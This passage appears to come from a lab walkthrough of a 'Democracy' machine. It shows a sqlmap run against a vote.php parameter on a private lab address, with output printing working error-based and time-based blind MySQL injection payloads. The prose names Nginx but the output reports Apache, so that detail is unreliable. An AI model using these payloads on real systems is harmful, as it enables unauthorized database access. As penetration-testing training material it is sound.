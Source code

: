 In a second shell, we can start SQLMap. Since we know our target is a Linux machine that runs an Nginx web server and uses PHP as the backend scripting language we can deduce that  it uses the LEMP (Linux, Nginx Server, MySQL Database, PHP) web application stack. With this information, we can save time and precise the target DBMS on the target to SQLMap with the **--dbms** option.
```bash
┌──(pentester㉿kali)-[~/Democracy/Scans/Web]
└─$sqlmap http://10.0.2.19/vote.php -X POST -H 'Cookie: PHPSESSID=90jt0r5s8i3s1o2u5iufi2h6rj; voted=1' --data 'candidate=democrat' --dbms=MySQL 
<SNIP>

[*] starting @ 10:55:40 /2024-09-17/
[04:24:50] [INFO] testing connection to the target URL 
[04:24:50] [INFO] testing if the target URL content is stable                    
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y                
[04:24:53] [INFO] target URL content is stable           
[04:24:53] [INFO] testing if POST parameter 'candidate' is dynamic            
<SNIP>                    
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y                                                                             
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y                                                              
<SNIP>                               
[04:25:17] [INFO] POST parameter 'candidate' is 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' injectable                                        
<SNIP>                                       
[04:25:27] [INFO] POST parameter 'candidate' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                                                                  
<SNIP>  
POST parameter 'candidate' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n                                                      
sqlmap identified the following injection point(s) with a total of 1520 HTTP(s) requests:                                                                    
---                                                                           
Parameter: candidate (POST)                                                   
    Type: error-based                                                         
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)                                                    
    Payload: candidate=democ' AND EXTRACTVALUE(3363,CONCAT(0x5c,0x716b787171,(SELECT (ELT(3363=3363,1))),0x716b7a6b71)) AND 'oRKZ'='oRKZ

    Type: time-based blind                                                    
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                    
    Payload: candidate=democ' AND (SELECT 2463 FROM (SELECT(SLEEP(5)))rJHC) AND 'zDHR'='zDHR                                                                 
---                                                                           
[10:56:53] [INFO] the back-end DBMS is MySQL
[10:56:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:57:05] [INFO] fetched data logged to text files under '/home/pentester/.local/share/sqlmap/output/10.0.2.19'

[*] ending @ 10:57:05 /2024-09-17/
```
